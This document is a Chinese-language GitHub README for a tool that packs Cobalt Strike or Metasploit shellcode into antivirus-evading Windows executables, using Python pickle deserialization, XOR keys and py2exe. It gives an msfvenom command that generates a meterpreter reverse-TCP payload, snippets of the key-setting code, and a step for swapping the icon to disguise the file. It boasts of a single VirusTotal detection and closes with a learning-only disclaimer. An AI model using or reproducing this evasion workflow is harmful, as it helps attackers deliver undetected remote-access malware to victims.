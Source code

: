 # CS MSF 均可使用
_描述：前阵子可动态免杀绝大部分杀软，最近发现微软的Defender 动态免杀 不了，想了想还是放出来吧，供大家参考下_

**可以的话，老哥们点个star吧 嘻嘻**

![图片](https://github.com/LiuYanJan/picture/blob/main/bypassav1.png)

`1、Filehandle.py用于处理CS MSF 生成的shellcode文件 提取 shellcode`

`2、ver.py 是核心生成代码，需修改`

`3、exeSetup.py 是 py2exe 打包启动文件，可修改`

**VT上只有匹配到了1个！还是很Nice**

![图片](https://github.com/LiuYanJan/picture/blob/main/bypassav.png)

[具体使用步骤参考：](https://blog.csdn.net/qq_42342141/article/details/113499224)

# 原理：
python 反序列化免杀

# 环境：
_测试时，我发现 python 3.7.0 这个版本兼容好，其他版本会有些问题，打包的程序可能无法正常使用！！！_

	* python 3.7.0  
	* py2exe库 【pyinstall指纹已经被很多杀软收集了】
	* python3.7.0淘宝镜像-http://npm.taobao.org/mirrors/python/3.7.0/python-3.7.0.exe
	


# 步骤
** 1、生成shellcode

	* CS 生成C语言格式
	* MSF msfvenom -a x86 -p windows/meterpreter/reverse_tcp lhost=192.168.47.147 lport=4444 -b '\x00' -f python

** 2、修改 ver.py 文件里的 shellcode值

  [1] Filehandle.py 用于处理 第一步里的 shellcode文件
  
  [2] ver.py 可修改异或密钥

          #key 设定shellcode的密钥
          key = 'liam'
          mess = get_shellcode(shellcode, key)
          #print(mess)
          ret = pickle.dumps(Student())
          decode_hex = codecs.getdecoder("hex_codec")
          encode_hex = codecs.getencoder("hex_codec")
          
          ret_hex = encode_hex(ret)[0]
          #key2 设定反序列化里的密钥
          key2 = "byav"


** 3、可在 exeSetup.py 修改生成的图标

     setup(
      options=options,    
      description = "this is a py2exe test",   
      zipfile=None,
      windows = [{"script":'launch.py',"icon_resources": [(1, u"softmgr.ico")]}]  #可选择其他图标ico
      )


** 4、运行 ver.py 后在 output 目录可查看到 launch.exe

**【申明：此项目仅供学习参考，不可用于非法途径，否则一切后果，由恶意使用者个人承担！】**
